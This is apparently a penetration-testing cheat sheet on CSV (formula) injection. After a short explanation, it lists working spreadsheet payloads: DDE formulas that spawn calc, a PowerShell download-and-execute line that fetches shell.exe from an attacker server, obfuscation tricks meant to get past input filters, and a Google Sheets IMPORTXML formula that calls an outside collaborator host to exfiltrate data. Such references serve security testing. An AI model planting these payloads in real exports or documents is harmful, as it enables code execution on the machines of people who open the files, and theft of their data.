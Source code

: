# CSV Injection

> Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Summary

* [Methodology](#methodology)
    * [Google Sheets](#google-sheets)
* [References](#references)

## Methodology

CSV Injection, also known as Formula Injection, is a security vulnerability that occurs when untrusted input is included in a CSV file. Any formula can be started with:

```powershell
=
+
–
@
```

Basic exploits with **Dynamic Data Exchange**.

* Spawn a calc

    ```powershell
    DDE ("cmd";"/C calc";"!A0")A0
    @SUM(1+1)*cmd|' /C calc'!A0
    =2+5+cmd|' /C calc'!A0
    =cmd|' /C calc'!'A1'
    ```

* PowerShell download and execute

    ```powershell
    =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
    ```

* Prefix obfuscation and command chaining

    ```powershell
    =AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
    =cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
    =         cmd|'/c calc.exe'!A
    ```

* Using rundll32 instead of cmd

    ```powershell
    =rundll32|'URL.dll,OpenURL calc.exe'!A
    =rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
    ```

* Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.

    ```powershell
    =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
    ```

Technical details of the above payloads:

* `cmd` is the name the server can respond to whenever a client is trying to access the server
* `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
* `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

### Google Sheets

Google Sheets allows some additionnal formulas that are able to fetch remote URLs:

* [IMPORTXML](https://support.google.com/docs/answer/3093342?hl=en)(url, xpath_query, locale)
* [IMPORTRANGE](https://support.google.com/docs/answer/3093340)(spreadsheet_url, range_string)
* [IMPORTHTML](https://support.google.com/docs/answer/3093339)(url, query, index)
* [IMPORTFEED](https://support.google.com/docs/answer/3093337)(url, [query], [headers], [num_items])
* [IMPORTDATA](https://support.google.com/docs/answer/3093335)(url)

So one can test blind formula injection or a potential for data exfiltration with:

```c
=IMPORTXML("http://burp.collaborator.net/csv", "//a/@href")
```

Note: an alert will warn the user a formula is trying to contact an external ressource and ask for authorization.

## References

* [CSV Excel Macro Injection - Timo Goosen, Albinowax - Jun 21, 2022](https://owasp.org/www-community/attacks/CSV_Injection)
* [CSV Excel formula injection - Google Bug Hunter University - May 22, 2022](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV Injection – A Guide To Protecting CSV Files - Akansha Kesharwani - 30/11/2017](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - Adam Chester - November 05, 2015](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - George Mauer - 7 October, 2017](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods - ReversingLabs - September 24, 2018](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection - we45 - October 5, 2020](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)
